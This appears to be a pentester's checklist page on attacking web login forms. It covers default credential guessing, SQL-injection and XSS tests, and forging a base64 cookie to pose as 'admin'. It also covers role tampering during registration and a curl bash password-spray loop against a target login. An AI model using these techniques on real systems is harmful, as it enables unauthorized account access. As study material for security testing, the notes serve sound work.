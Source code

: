 https://www.hackingarticles.in/multiple-ways-to-exploiting-http-authentication/
#### Guessing
admin:admin
administrator:administrator
admin:`NAMEOFTOOL` (remember nexus?)
#### Googling
- [ ] Google for Default Creds!!
#### SQLi
- [ ] Bypass login with SQLi (Try 1 field at a time, then both).
[[SQL Payload]]
- [ ] Inject into registration page, then login page
![[Pasted image 20220927104458.png | 750]]
![[Pasted image 20220927104516.png | 750]]
#### XSS
- [ ] Test for XSS.
[[7._XSS]]
#### Register a user - Cookie evaluation
Sometimes you just need to register as a new user, and evaluate after.
Check cookies
![[Pasted image 20220105201411.png]]
`eyJ1c2VybmFtZSI6ImFkbWluMiJ9`
```bash - kali
echo "eyJ1c2VybmFtZSI6ImFkbWluMiJ9" | base64 -d
```
![[Pasted image 20220105201601.png]]
```bash - kali
echo '{"username":"admin"}' | base64
```
`eyJ1c2VybmFtZSI6ImFkbWluIn0K`
![[Pasted image 20220105201823.png]]
![[Pasted image 20220105201836.png]]
#### Admin role assignment
Register a new user while proxy through Burp / ZAP.
Look at the response for a role assignment:
![[Pasted image 20220905125447.png]]
```
"role": "admin",
```
![[Pasted image 20220902153332.png]]
#### Login page password spray curl bash script
```bash - kali
for user in $(cat users.txt); do curl 'http://$TARGET/login' --data "{\"username\":\"${user}\",\"password\":\"password\"}" -H "Content-Type: application/json" 2>/dev/null | grep -v Unauthorized && echo $user ; done
```
http://www.critifence.com/default-password-database/
https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.csv
https://www.fortypoundhead.com/tools_dpw.asp
https://default-password.info/